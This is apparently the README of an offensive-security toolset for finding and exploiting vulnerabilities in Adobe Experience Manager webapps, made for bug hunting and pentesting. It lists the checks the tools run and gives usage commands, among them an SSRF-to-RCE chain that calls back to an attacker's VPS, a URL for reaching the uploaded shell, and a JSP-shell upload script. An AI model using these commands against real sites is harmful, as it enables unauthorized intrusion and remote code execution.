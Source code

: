 # Toolset for AEM hacking

Tools to identify vulnerable Adobe Experience Manager (AEM) webapps. <a href="https://www.adobe.com/marketing/experience-manager.html">AEM is an enterprise-grade CMS</a>.

I've built these tools to automate bughunting and pentesting of AEM webapps. I've included checks for previously known vulnerabilities and misconfigurations, as well as for new ones, discovered by me in 2018/2019. **All discovered vulnerabilities were responsibly reported to Adobe PSIRT**.
 
You can find more details about vulnerabilities and techniques in presentations, I've prepared for <a href="https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps">Hacktivity conference</a> and <a href="https://www.youtube.com/watch?v=EQNBQCQMouk">LevelUp 0x03</a>.

AEM webapps are widespread and rarely configured securely or kept up to date. Bughunter, you have good chances to find security bugs, enjoy the tools!


Mikhail Egorov (<a href="https://twitter.com/0ang3el">@0ang3el</a>)

## Scripts

* `aem_hacker.py` - main script to scan AEM webapp for vulnerabilities.
* `aem_discoverer.py` - script to discover AEM webapps from list of URLs.
* `aem_ssrf2rce.py`, `aem_server.py`, `response.bin` - scripts to get RCE from SSRF.
* `aem-rce-sling-script.sh` - script to get RCE by uploading JSP shell to /apps JCR node.

## aem_hacker.py
**Important:** You need a VPS to detect SSRF vulnerabilities!

Tool tries to bypass AEM dispatcher. 

Following checks are currently implemented:
* `Exposed DefaultGetServlet` - checks if JCR nodes, that might contain sensitive information and secrets, are exposed via DefaultGetServlet.
* `Exposed QueryBulderJsonServlet and QueryBuilderFeedServlet` - if those servlets are exposed it might be possible to access various sensitive information and secrets. 
* `Exposed GQLServlet` - GQLServlet is similar to QueryBuilderFeedServlet.
* `Ability to create new JCR nodes` - checks if it's possible to create new JCR node.
* `Exposed POSTServlet` - POSTServlet allows to create/modify/delete content in JCR. Depending on your access level, it's possible to get stored XSS or RCE. 
* `Exposed LoginStatusServlet, CurrentUserServlet and UserInfoServlet` - if those servlets are exposed allows it might be possible to bruteforce credentials.
* `Users with default password` - checks for admin:admin, author:author, etc.
* `Exposed Felix Console` - exposed Felix Console might lead to RCE by uploading backdoor OSGI bundle.
* `Enabled WCMDebugFilter` - vulnerable to CVE-2016-7882 WCMDebugFilter might lead to reflected XSS.
* `Exposed WCMSuggestionsServlet` - exposed WCMSuggestionsServlet might lead to reflected XSS.
* `Exposed CRXDE and CRX` - checks for exposure of CRXDE and CRX.
* `Exposed Reports` - checks for exposure of reports.
* `SSRF SalesforceSecretServlet` - checks for SSRF via SalesforceSecretServlet (CVE-2018-5006). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF ReportingServicesServlet` - checks for SSRF via ReportingServicesServlet (CVE-2018-12809). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF SitecatalystServlet` - checks for SSRF via SitecatalystServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF AutoprovisioningServlet` - checks for SSRF via AutoprovisioningServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF Opensocial Proxy` - checks for SSRF via Opensocial (Shindig) proxy. SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF Opensocial MakeRequest` - check for SSRF via Opensocial (Shindig) makeRequest. SSRF might allow to ex-filtrate secrets or perform XSS. You can use parameters `httpMethod`, `postData`, `headers`, `contentType` with `makeRequest`.
* `SWF XSSes` - checks for XSSes via SWF.
* `Deser ExternalJobServlet` - checks for vulnerable ExternalJobServlet.
* `Exposed Webdav` - checks for access to JCR via WebDav protocol. Exposed WebDav might lead to XXE (CVE-2015-1833) or stored XSS.
* `Exposed Groovy Console` - exposed Groovy console leads to RCE. 
* `Exposed ACS AEM Tools` - exposed ACS AEM Tools leads to RCE.
* `Exposed GuideInternalSubmitServlet` - exposed GuideInternalSubmitServlet vulnerable to XXE (CVE-2019-8086).
* `Exposed MergeMetadataServlet` - might be vulnerable to reflected XSS.
* `Exposed SetPreferences page` - might be vulnerable to reflected XSS.

#### Help
```
python3 aem_hacker.py -h
usage: aem_hacker.py [-h] [-u URL] [--proxy PROXY] [--debug] [--host HOST]
                     [--port PORT] [--workers WORKERS]

AEM hacker by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help         show this help message and exit
  -u URL, --url URL  url to scan
  --proxy PROXY      http and https proxy
  --debug            debug output
  --host HOST        hostname or IP to use for back connections during SSRF
                     detection
  --port PORT        opens port for SSRF detection
  --workers WORKERS  number of parallel workers
  -H [HEADER [HEADER ...]], --header [HEADER [HEADER ...]]
                     extra http headers to attach
```

#### Usage
```
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```

## aem_discoverer.py
Script allows to scan urls and find AEM webapps among them.

Tool tries to bypass AEM dispatcher.

#### Help
```
python3 aem_discoverer.py -h
usage: aem_discoverer.py [-h] [--file FILE] [--proxy PROXY] [--debug]
                         [--workers WORKERS]

AEM discoverer by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help         show this help message and exit
  --file FILE        file with urls
  --proxy PROXY      http and https proxy
  --debug            debug output
  --workers WORKERS  number of parallel workers
```

#### Usage
```
python3 aem_discoverer.py --file urls.txt --workers 150
```

## aem_ssrf2rce.py, aem_server.py, response.bin
Helps to exploit SSRF in `SitecatalystServlet` and `AutoprovisioningServlet` as RCE. It should work on AEM before AEM-6.2-SP1-CFP7 running on Jetty (default installation).

#### Help

```
python3 aem_ssrf2rce.py -h
usage: aem_ssrf2rce.py [-h] [--url URL] [--fakeaem FAKEAEM] [--proxy PROXY]

optional arguments:
  -h, --help         show this help message and exit
  --url URL          URL for SitecatalystServlet or AutoprovisioningServlet,
                     including path, without query part
  --fakeaem FAKEAEM  hostname/ip of fake AEM server
  --proxy PROXY      http and https proxy
```

#### Usage
Place `aem_server.py` and `response.bin` on your VPS. Run `aem_server.py` script.

```
python3 aem_server.py
starting fake AEM server...
running server...
```

Run `aem_ssrf2rce.py` script.

```
python3 aem_ssrf2rce.py --url https://aem.webapp/libs/cq/analytics/components/sitecatalystpage/segments.json.servlet --fakeaem your_vps_hostname_ip
```

If RCE is possible, you should see incoming connection to your fake AEM server. After replication, you can access your shell from `https://aem.webapp/rcenode.html?Vgu9BKV9zdvJNByNh9NB=ls`.


## aem-rce-sling-script.sh
Script is handy when Felix Console is not available, but you have permissions to create new nodes under `/apps` JCR node.

#### Usage

```
./aem-rce-sling-script.sh https://aem.webapp username password
```
